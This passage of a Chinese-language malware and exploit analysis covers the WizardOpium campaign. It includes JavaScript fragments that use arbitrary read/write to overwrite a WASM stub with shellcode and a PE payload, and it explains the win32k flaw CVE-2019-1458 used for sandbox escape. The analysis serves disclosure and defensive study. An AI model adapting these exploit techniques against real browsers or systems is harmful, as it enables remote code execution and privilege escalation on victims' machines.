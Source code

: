 变量stubAddr包含页面的地址，该地址带有跳转到JIT编译的WASM函数的stub（存根）代码。在此阶段，用shellcode覆盖它就够了。为此，利用代码再次使用函数getPartitionPageFreeListHeadEntEntBySlotSize()来查找下一个0x20字节的空闲块，这也是ArrayBuffer对象的结构大小。当漏洞利用创建新的音频缓冲区时，此对象就被创建。

```
let arrayBufferSize = 0x20;
let arrayBufferPtr = getPartitionPageFreeListHeadEntryBySlotSize(freelist, iirFilterFeedforwardAllocationPtr, arrayBufferSize);
if (!arrayBufferPtr)
    return;

let audioBuffer = audioCtx.createBuffer(1, 0x400, 6000);
gcPreventer.push(audioBuffer);
```

该漏洞利用任意读/写原语来获取DataHolder类的地址，该类包含指向数据和音频缓冲区大小的裸指针。利用代码用stubAddr覆盖此指针，并设置了一个很大的大小。

```
let dataHolderPtr = read64(freelist, arrayBufferPtr + BigInt(0x8));

write64(freelist, dataHolderPtr + BigInt(0x8), stubAddr);
write64(freelist, dataHolderPtr + BigInt(0x10), BigInt(0xFFFFFFF));
```

现在，所需要做的就是将Uint8Array对象植入此音频缓冲区的内存中，然后将shellcode以及将由shellcode执行的PE文件放入其中。

```
let payloadArray = new Uint8Array(audioBuffer.getChannelData(0).buffer);
payloadArray.set(shellcode, 0);
payloadArray.set(peBinary, shellcode.length);
```

为防止崩溃，利用代码会清除指向PartitionPage使用的FreeList结构顶部的指针。

```
write64(freelist, partitionPagePtr, BigInt(0));
```

现在，要执行shellcode，只需调用导出的WASM函数即可。

```
try `{`
    wasmFuncA();
`}` catch (e) `{``}`
```



## 0x02 Microsoft Windows提权漏洞

这份shellcode似乎是利用代码里那个PE模块的反射PE加载器。该模块主要包含通过利用Windows内核组件win32k提升特权来逃逸Google Chrome沙盒的代码，它还负责下载和执行实际的恶意软件。通过仔细分析，我们发现被利用的漏洞实际上是0day漏洞。我们通知了微软安全响应中心，他们将其分配为CVE-2019-1458并修复了该漏洞。win32k组件算是臭名远扬了，自Windows NT 4.0以来，它就已经存在，据微软称，全部内核安全漏洞的50％以上都是它导致的。卡巴斯基仅在过去的两年中就发现了五个利用Win32k漏洞的0day活动。考虑到自Windows 10发行以来，微软已经实施了许多缓解措施，旨在使Win32k漏洞的利用复杂化，而大多数我们发现的0day漏洞都是针对Windows 10 RS4之前的版本，因此这是一个非常有趣的统计数字。WizardOpium行动中使用的特权提升漏洞支持Windows 7、Windows 10 build 10240和Windows 10 build 14393。同样值得注意的是，Google Chrome浏览器具有一项称为[Win32k锁定](https://googleprojectzero.blogspot.com/2016/11/breaking-chain.html)的特殊安全功能。此安全功能通过禁止从Chrome进程内部访问win32k系统调用，以消除整个win32k攻击面。不幸的是，Win32k锁定仅支持Windows 10。因此，可以肯定地说WizardOpium行动仅针对运行Windows 7的用户。

CVE-2019-1458是一个任意指针解引用漏洞。在win32k中，Window（窗口）对象由tagWND结构表示。也有许多基于此结构的类：ScrollBar，Menu，Listbox，Switch等。tagWND结构的FNID字段用于区分类的类型。不同的类在tagWND结构中还附加各种额外数据。这些额外的数据其实就只是一些不同的结构体，通常包含着内核指针。除此之外，在win32k组件中还有一个系统调用SetWindowLongPtr，可用于设置此额外数据（当然要经过验证）。值得注意的是，SetWindowLongPtr过去与许多漏洞有关（例如CVE-2010-2744，CVE-2016-7255和CVE-2019-0859）。预先初始化的额外数据可能导致系统函数的错误处理，这是一个[常见的问题](https://securelist.com/new-win32k-zero-day-cve-2019-0859/90435/)。在CVE-2019-1458中，由SetWindowLongPtr执行的验证是不够的。
